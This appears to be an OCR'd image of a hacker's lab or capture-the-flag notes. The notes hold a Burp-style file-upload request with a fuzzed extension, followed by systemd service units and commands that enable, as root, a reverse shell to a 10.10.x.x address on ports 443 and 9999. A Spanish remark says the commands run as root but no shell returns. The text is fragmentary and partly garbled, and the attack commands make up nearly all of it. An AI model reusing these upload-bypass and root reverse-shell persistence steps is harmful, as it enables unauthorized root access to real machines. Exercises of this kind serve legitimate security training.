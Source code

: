 ```python
------WebKitFormBoundaryBsRFqB8h7iwsROLb
Content-Disposition: form-data; name="file"; filename="0f93a§extension§"
Content-Type: image/png

PNG








TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c '/bin/sh -i >& /dev/tcp/10.10.230.35/443 0>&1'
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF






[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.230.35/9999 0>&1'

[Install]
WantedBy=multi-user.target







[Install]
WantedBy=multi-user.target > $TF






Created symlink from /etc/systemd/system/multi-user.target.wants/rootshell.service to /tmp/rootshell.service




//////////////////////


FUNCIONA SE EJECUTAN LOS COMANDOS COMO ROOT PERO NO TENEMOS LA SHELL

```